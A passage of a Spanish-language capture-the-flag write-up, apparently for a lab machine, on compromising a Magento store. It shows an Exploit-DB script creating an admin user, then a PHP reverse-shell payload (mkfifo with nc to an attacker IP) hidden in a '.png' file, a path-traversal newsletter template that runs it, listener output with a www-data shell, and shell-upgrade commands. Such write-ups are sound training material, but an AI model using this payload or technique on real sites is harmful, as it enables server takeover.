 
Este parece interesante:

```
Magento eCommerce - Remote Code Execution    | xml/webapps/37977.py
```

Siguiendo los pasos del script su funcionamiento es simple, crea un usuario con el nombre y credenciales que escogamos con privilegios de administrador, en mi caso creé **zelpro:zelpro** y me logueé:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FSgWoLlkIOjpgYFtcZSBm%2Fimage.png?alt=media&#x26;token=b1234c37-816e-4c9e-adbd-3ce3268f7a8b" alt=""><figcaption></figcaption></figure>

### FrogHopper Attack

Activaremos en el apartado **System/Developer/Template Settings/Symlinks**. Todo esto para realizar el ataque **FrogHopper**. Para llevarlo acabo seguiremos los siguientes pasos:

#### 1. Crear una imagen mailiciosa

```php title="pwn.php.png"
<?php
   system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.14.5 4444 >/tmp/f");
?>
```

#### 2.  Crear una categoría con esta imagen y copiar su ruta

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5fX2TyChBgFS9Nr4rk73%2Fimage.png?alt=media&#x26;token=2b5c4174-d13f-474f-837e-19e818b7f87a" alt=""><figcaption></figcaption></figure>

#### 3. Crear Newsletter Template con el siguiente código

```
{{block type="core/template" template="../../../../../../media/catalog/category/pwn.php.png"}}
```

```
❯ nc -nlvp 4444
listening on [any] 4444 ...
 connect to [10.10.14.5] from (UNKNOWN) [10.10.10.140] 33870
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cat user.txt
3bc1dde182422f05f...
```

Además haremos la reverse shell más interactiva con la siguiente secuencia:

```
script -qc /bin/bash /dev/null
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

## Escalada de privilegios

